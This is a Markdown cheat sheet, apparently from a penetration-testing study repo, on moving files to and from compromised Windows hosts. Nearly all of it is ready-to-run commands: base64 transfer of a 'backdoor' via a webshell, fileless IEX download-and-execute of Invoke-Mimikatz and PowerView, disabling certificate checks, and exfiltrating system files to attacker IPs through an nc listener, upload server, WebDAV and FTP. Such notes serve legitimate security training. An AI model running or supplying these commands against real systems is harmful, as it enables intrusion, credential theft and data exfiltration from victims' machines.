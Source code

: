 # Content
- [Download Operations](#download-operations)
  - [PowerShell Base64 Encode & Decode](#1-powershell-base64-encode--decode)
  - [PowerShell HTTP Downloads](#2-powershell-http-downloads)
  - [PowerShell SMB Downloads](#3-powershell-smb-downloads)
  - [PowerShell FTP Downloads](#4-powershell-ftp-downloads)
- [Upload Operations](#upload-operations)
  - [PowerShell Base64 Encode & Decode](#1-powershell-base64-encode--decode-1)
  - [PowerShell HTTP Upload](#2-powershell-http-upload)
  - [PowerShell SMB Uploads](#3-powershell-smb-uploads)
  - [PowerShell FTP Uploads](#4-powershell-ftp-uploads)

- [Living off The Land](#living-off-the-land)

# Download Operations

## 1) PowerShell Base64 Encode & Decode
if you have access to terminal using a webshell you can 


- base64 a file that you want to transfer
```bash
$ cat backdoor| base64 -w 0 ; echo
YmFkIHRoaW5ncyBoYXBwZW4gaGVyZQo=


$ md5sum shell
2eebc05b20651f70efb2d195bbdaf2c2  shell
```


- paste it in powershell
```powershell
PS C:\user> [IO.File]::WriteAllBytes("C:\Users\public\Desktop\testing\backdoor",[Convert]::FromBase64String("YmFkIHRoaW5ncyBoYXBwZW4gaGVyZQo="))


PS C:\user> Get-FileHash .\backdoor -Algorithm MD5

Algorithm       Hash                                                                   Path                                 
---------       ----                                                                   ----                                 
MD5             2EEBC05B20651F70EFB2D195BBDAF2C2  
```



**Note:** While this method is convenient, it's not always possible to use. Windows Command Line utility (cmd.exe) has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings.

## 2) PowerShell HTTP Downloads

### 1) PowerShell DownloadFile Method
```powershell
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```

### 2) PowerShell DownloadString - Fileless Method
- `IEX` It is a cmdlet used to evaluate or execute a string as a PowerShell command.
```powershell
PS C:\user> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')

PS C:\user> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```
### 3) PowerShell Invoke-WebRequest
```powershell
PS C:\user> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

PS C:\user> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -UseBasicParsing | IEX
```

if the certificate is not trusted. We can bypass that error with the following command:
```powershell
PS C:\user> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
## 3) PowerShell SMB Downloads
- create smbserver
```bash
sudo /usr/share/doc/python3-impacket/examples/smbserver.py share -smb2support ./shareIsCare

sudo /usr/share/doc/python3-impacket/examples/smbserver.py share -smb2support ./shareIsCare -user test -password test
```
- copy files using powershell
```powershell
PS C:\user> copy \\192.168.220.133\share\nc.exe


PS C:\user> net use n: \\192.168.220.133\share /user:test test

The command completed successfully.

PS C:\user> copy n:\nc.exe
        1 file(s) copied.
```
## 4) PowerShell FTP Downloads

```bash
sudo python3 -m pyftpdlib --port 21
```

- Download Using PowerShell
```powershell
PS C:\user> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

- Download using Command File for the FTP Client and Download the Target File
```powershell
C:\user> echo open 192.168.49.128 > ftpcommand.txt
C:\user> echo USER anonymous >> ftpcommand.txt
C:\user> echo binary >> ftpcommand.txt
C:\user> echo GET file.txt >> ftpcommand.txt
C:\user> echo bye >> ftpcommand.txt
C:\user> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\user>more file.txt
This is a test file
```

# Upload Operations

## 1) PowerShell Base64 Encode & Decode

- encode file
```powershell
PS C:\user> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

PS C:\user> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash

Hash
----
3688374325B992DEF12793500307566D
```
- paste it to decode
```bash
KiroMaged@htb[/htb]$ echo <base64>| base64 -d > hosts
```

## 2) PowerShell HTTP Upload

### Invoke-FileUpload to Python Upload Server
- listen 
```bash
$ python3 -m uploadserver 9999
File upload available at /upload
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...

```
-  send req
```powershell
PS C:\user> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\user> Invoke-FileUpload -Uri http://172.24.121.19:9999/upload -File C:\Windows\System32\drivers\etc\hosts

```

### PowerShell Base64 Web Upload
- listen  
```bash
$  nc -lvnp 8000
listening on [any] 8000 ...
```
-  send req
```powershell
PS C:\user> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\user> Invoke-WebRequest -Uri http://172.24.121.19:8000/ -Method POST -Body $b64
```

## 3) PowerShell SMB Uploads

- most encrionment will prevent outgoing smb connection so we can use The WebDAV protocol , which enables a webserver to behave like a fileserver, supporting collaborative content authoring. WebDAV can also use HTTPS.

- other than that we can use the same method in download section
```bash
$ sudo pip install wsgidav cheroot
$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

```powershell
PS C:\user> dir \\192.168.49.128\DavWWWRoot

PS C:\user> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```

## 4) PowerShell FTP Uploads

```bash 
sudo python3 -m pyftpdlib --port 21 --write
```

```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

```powershell
PS C:\user> echo open 192.168.49.128 > ftpcommand.txt
PS C:\user> echo USER anonymous >> ftpcommand.txt
PS C:\user> echo binary >> ftpcommand.txt
PS C:\user> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
PS C:\user> echo bye >> ftpcommand.txt
PS C:\user> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```


# Living off The Land
check in [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/#) and search for upload and download
